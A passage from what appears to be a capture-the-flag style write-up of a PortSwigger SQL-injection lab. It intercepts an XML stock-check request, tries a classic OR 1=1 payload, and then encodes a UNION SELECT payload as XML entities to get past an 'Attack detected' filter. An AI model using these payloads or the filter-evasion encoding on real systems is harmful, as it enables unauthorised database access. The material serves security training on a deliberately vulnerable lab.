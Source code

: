Then, the `xml` variable preparing a valid XML format:

- Header:

```xml
<?xml version="1.0" encoding="UTF-8"?>
```

- `stockCheck` tag:

```xml
<stockCheck>
</stockCheck>
```

- **After that, it adds a new `key` tag, and the key pair `value`:**

**In here, when we clicked the `Check stock` button, a POST parameter `productId`, `storeId` and it's value will be supplied:**
```xml
<productId>1</productId>
<storeId>1</storeId>
```

**Therefore, the complete XML is:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

**Now, let's intercept that POST request in Burp Suite:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-18/images/Pasted%20image%2020221211023729.png)

**Armed with above information, we can try to send an SQL injection payload:**
```sql
1' OR 1=1-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-18/images/Pasted%20image%2020221211024128.png)

Hmm... `"Attack detected"`??

**Looks like there are some filtering that blocks our SQL injection payload!**

To bypass XML-based SQL injection, we can use an **XML escape sequence**!!

**For example, we can use an [online tool](https://coderstoolbox.net/string/#!encoding=xml&action=encode&charset=us_ascii) to encode XML strings:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-18/images/Pasted%20image%2020221211025807.png)

**Let's copy and paste that to our payload!**
```xml
<storeId>1 &#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#78;&#85;&#76;&#76;</storeId>
```
